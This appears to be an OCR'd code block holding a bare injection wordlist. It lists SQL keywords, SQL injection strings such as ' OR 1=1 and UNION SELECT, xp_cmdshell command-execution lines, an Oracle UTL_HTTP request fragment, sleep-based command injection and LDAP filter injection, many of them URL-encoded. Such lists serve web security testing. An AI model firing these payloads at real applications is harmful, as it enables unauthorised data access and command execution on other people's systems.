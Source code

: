 ```sql
OR
PROCEDURE
LIMIT
ORDER BY
ASC
DESC
DELETE
UPDATE
DISTINCT
HAVING
TRUNCATE
REPLACE
LIKE
handler
bfilename
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%
EXEC xp
EXEC sp
'; exec master..xp_cmdshell
'; EXEC xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
--sp_password
\x27UNION SELECT
' UNION SELECT
' UNION ALL SELECT
' OR (EXISTS)
' (select top 1
'||UTL_HTTP.REQUEST
1;SELECT%20*
to_timestamp_tz
tz_offset
&lt;&gt;&quot;'%;)(&amp;+
'%20or%201=1
%27%20or%201=1
%20$(sleep%2050)
%20'sleep%2050'
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
|
%7C
*|
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29
(
%28
)
%29
&
%26
!
%21
' OR 1=1 OR ''='
' OR ''='
x' OR 1=1 OR 'x'='y
```
